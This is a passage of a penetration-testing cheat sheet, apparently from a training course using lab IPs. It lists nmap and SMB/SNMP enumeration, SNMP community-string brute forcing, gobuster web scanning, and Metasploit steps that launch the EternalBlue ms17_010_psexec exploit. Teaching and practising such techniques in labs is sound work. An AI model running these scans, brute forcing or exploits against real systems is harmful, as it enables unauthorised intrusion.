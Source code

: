 | `:wq` | vim: Write and quit |

### Service Scanning

| **Command**   | **Description**   |
| --------------|-------------------|
| `nmap 10.129.42.253` | Run nmap on an IP |
| `nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP |
| `locate scripts/citrix` | List various available nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP |
| `netcat 10.10.10.10 22` | Grab banner of an open port |
| `smbclient -N -L \\\\10.129.42.253` | List SMB Shares |
| `smbclient \\\\10.129.42.253\\users` | Connect to an SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string |

### Web Enumeration

| **Command**   | **Description**   |
| --------------|-------------------|
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `curl -IL https://www.inlanefreight.com` | Grab website banner |
| `whatweb 10.10.10.121` | List details about the webserver/certificates |
| `curl 10.10.10.121/robots.txt` | List potential directories in `robots.txt` |
| `ctrl+U` | View page source (in Firefox) |

### Public Exploits

| **Command**   | **Description**   |
| --------------|-------------------|
| `searchsploit openssh 7.2` | Search for public exploits for a web application |
| `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |
